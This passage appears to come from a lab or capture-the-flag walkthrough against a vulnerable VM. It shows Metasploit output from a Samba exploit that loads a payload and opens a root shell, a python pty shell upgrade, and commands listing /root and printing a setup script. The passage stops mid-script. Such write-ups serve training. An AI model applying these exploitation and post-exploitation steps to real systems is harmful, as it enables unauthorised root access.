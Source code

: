 ```plaintext
[-] 192.10.2.11:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.10.2.11:139 - Loading the payload from server-side path /var/tmp/BKkqCUEZ.so using /var/tmp/BKkqCUEZ.so...
[+] 192.10.2.11:139 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.10.2.4:38739 -> 192.10.2.11:139) at 2017-06-30 19:18:22 +0200
```

Oh yes! Exploited successfully! We are root :smiling_imp:!! Now for having a complete shell just let us spawn bash shell with python:

```plaintext
python -c "import pty; pty.spawn('/bin/bash')"
root@red:/# uname -a
uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
root@red:/# whoami
root@red:/# ls -l /root
total 72
-rwxr-xr-x 1 root root  1090 Jun  5  2016 fix-wordpress.sh
-rw-r--r-- 1 root root   463 Jun  5  2016 flag.txt
-rw-r--r-- 1 root root   345 Jun  5  2016 issue
-rwxr-xr-x 1 root root   103 Jun  5  2016 python.sh
-rw-r--r-- 1 root root 54405 Jun  5  2016 wordpress.sql
root@red:/# cat /root/issue

                                __..--''\
                        __..--''         \
                __..--''          __..--''
        __..--''          __..--''       |
        \ o        __..--''____....----""
         \__..--''\
         |         \
        +----------------------------------+
        +----------------------------------+

root@red:/# cat /root/fix-wordpress.sh
#!/bin/bash

## Bring up all interfaces (*cough* Vbox *cough*)
for iface in $(ip addr | awk -F ':' '/state/ {print $2}'); do
  ifconfig ${iface} up
  dhclient ${iface} &>/dev/null
done
sleep 2s

## What is eth0?
lanip=$(ip addr | grep inet | grep -v '127.0.0.1' | cut -d"/" -f1 | awk '{print $2}' | head -n 1)

# Console login banner
cp -rf /root/issue /etc/issue

## Did we get the IP?
if [ "${lanip}" ]; then
  ## Start MySQL
  /bin/systemctl start mysql.service
  sleep 2s

  ## Update wordpress
  #/usr/bin/mysql -D wordpress --execute="UPDATE wp_options SET option_value=\"https://${lanip}:12380/blogblog\" WHERE option_name = 'home' OR option_name = 'siteurl';"
  sed "s/x\.x\.x\.x/${lanip}/g" /root/wordpress.sql > /root/wordpress_temp.sql
```